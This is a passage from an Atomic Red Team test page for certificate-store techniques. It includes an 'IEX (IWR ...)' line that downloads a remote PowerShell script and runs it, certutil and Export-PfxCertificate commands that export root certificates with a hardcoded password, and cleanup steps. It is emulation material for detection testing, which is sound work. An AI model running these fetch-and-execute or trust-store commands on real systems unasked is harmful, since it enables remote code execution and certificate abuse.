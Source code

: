 
```powershell
IEX (IWR 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1553.004/src/RemoteCertTrust.ps1' -UseBasicParsing) 
certutil.exe -p #{password} -exportPFX Root 1F3D38F280635F275BE92B87CF83E40E40458400 #{output}
```

#### Cleanup Commands:
```powershell
Get-ChildItem -Path Cert:\ -Recurse | Where-Object { $_.Thumbprint -eq '1F3D38F280635F275BE92B87CF83E40E40458400' } | remove-item
```





<br/>
<br/>

## Atomic Test #12 - Export Root Certificate with Export-PFXCertificate
Creates a Root certificate and exports it with Export-PFXCertificate PowerShell Cmdlet.
Upon a successful attempt, this will write a pfx to disk and utilize the Cmdlet Export-PFXCertificate.

**Supported Platforms:** Windows


**auto_generated_guid:** 7617f689-bbd8-44bc-adcd-6f8968897848





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| pfx_path | output path of the certificate | string | $env:Temp&#92;atomicredteam.pfx|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$mypwd = ConvertTo-SecureString -String "AtomicRedTeam" -Force -AsPlainText
$cert = New-SelfSignedCertificate -DnsName atomicredteam.com -CertStoreLocation cert:\LocalMachine\My
Set-Location Cert:\LocalMachine\My
Get-ChildItem -Path $cert.Thumbprint | Export-PfxCertificate -FilePath #{pfx_path} -Password $mypwd
```

#### Cleanup Commands:
```powershell
try {
$cert = Import-Certificate -FilePath #{pfx_path} -CertStoreLocation Cert:\LocalMachine\My
Get-ChildItem Cert:\LocalMachine\My\$($cert.Thumbprint) -ErrorAction Ignore | Remove-Item -ErrorAction Ignore
Get-ChildItem Cert:\LocalMachine\Root\$($cert.Thumbprint) -ErrorAction Ignore | Remove-Item -ErrorAction Ignore
} catch { }
```
